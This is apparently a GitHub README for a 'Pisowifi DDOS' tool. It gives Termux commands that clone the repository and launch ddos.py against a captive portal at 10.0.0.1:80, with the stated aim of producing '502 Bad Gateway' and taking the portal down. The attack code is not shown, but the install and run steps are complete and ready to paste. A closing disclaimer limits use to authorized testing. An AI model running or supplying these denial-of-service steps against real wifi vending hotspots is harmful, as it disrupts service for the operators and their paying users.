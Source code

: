 # Pisowifi DDOS
502 Bad Gateway and take down the captive portal.

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
```
pkg update && pkg upgrade -y
```
```
pkg install git python python-pip -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
python3 ddos.py
```

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && cd pisowifi-ddos && python ddos.py
```
# Run
```
cd pisowifi-ddos
```
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```
<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
